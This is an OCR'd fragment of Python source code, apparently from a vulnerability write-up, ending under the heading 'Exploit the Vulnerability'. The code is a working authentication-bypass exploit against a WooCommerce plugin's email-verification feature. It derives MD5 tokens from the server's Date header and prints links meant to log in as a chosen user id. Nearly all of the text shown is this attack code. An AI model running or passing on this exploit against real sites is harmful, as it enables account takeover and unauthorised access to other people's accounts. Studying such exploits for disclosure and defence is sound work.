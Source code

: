         verify_url= url + "?wcj_user_id=" + id
        r = requests.get(verify_url)

        if r.status_code != 200:
              print("status code != 200")
              print(r.headers)
              sys.exit(-1)

        def email_time_to_timestamp(s):
          tt = email.utils.parsedate_tz(s)
          if tt is None: return None
          return calendar.timegm(tt) - tt[9]

        date = r.headers["Date"]
        unix = email_time_to_timestamp(date)

        def printBanner():
          print(f"{W}Timestamp: {B}" + date)
          print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
          print("We need to generate multiple timestamps in order to avoid delay related timing errors")
          print("One of the following links will log you in...\n")

        printBanner()

        for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
              hash = hashlib.md5(str(unix-i).encode()).hexdigest()
              print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
              token='{"id":"'+ id +'","code":"'+hash+'"}'
              token = base64.b64encode(token.encode()).decode()
              token = token.rstrip("=") # remove trailing =
              link = url+"my-account/?wcj_verify_email="+token
              print(link + f"\n{RST}")



#### **Exploit the Vulnerability**
